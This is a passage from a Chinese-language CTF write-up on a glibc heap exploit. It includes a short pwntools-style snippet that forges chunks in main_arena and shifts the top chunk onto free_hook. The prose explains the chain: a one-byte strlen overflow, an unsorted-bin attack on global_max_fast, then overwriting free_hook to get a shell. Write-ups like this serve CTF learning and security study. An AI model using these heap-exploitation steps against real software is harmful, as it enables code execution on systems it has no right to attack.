 ![XlLhiT](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/XlLhiT.png)

```python
fake_chunk=0x39bb20+libc+8
main_aren_88=0x39bb78+libc
#fake_top_chunk=0x39d7e0+libc
free_hook=3790760+libc
fake_top_chunk=free_hook-0xb58

#fake_top_chunk=libc
add(0x68,b"\x00"*(19+8)+p64(0)*2+p64(0)+p64(0x70)*4+p64(fake_chunk))
add(0x68,p64(0)*8+p64(fake_top_chunk)+p64(0)+p64(main_aren_88)*2)


delete(0)
delete(1)
add(0x68,p64(0x6162636465))
add(0x68,p64(0x1234))
```

但是chunk数量貌似不够。。。emmm

经过实践，先分配大量0x20，然后释放到fastbin，然后分配0x30之后释放，一路分配到0x70勉强够修改free_hook。调试了很久，终于整好凑到能够覆盖free_hook

![FYgj1P](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/FYgj1P.png)

修改free_hook，接下来只需要free一个包含/bin/sh的内存即可。

![VB4A2l](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/VB4A2l.png)

总结一下**知识点**，strlen导致一个字节溢出，通过unsortbin attack修改global_max_fast，通过覆盖free_hook拿shell。中间还有无数的坑，python3跑出来结果和远程还不一样。

# 小结

- **strlen**也可能遭遇字符串拼接导致的长度问题，Auditing的时候要注意。

- global_max_fast 利用（使用unsortbin来覆盖）
- unsortbin只有切好取出完整堆，链接中的堆块才不会被分配到其他bins中去。
- unsortbin之后的修复（覆盖main_arena+104和108）
- main_arena中伪造chunk挺好用的
- 通过修改Topchunk(main_arena+0x88)来覆写free_hook

# 参考

https://www.anquanke.com/post/id/84752

https://xz.aliyun.com/t/5082

[house of lore](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/glibc-heap/house_of_lore-zh/)

https://xz.aliyun.com/t/7020

#EXP
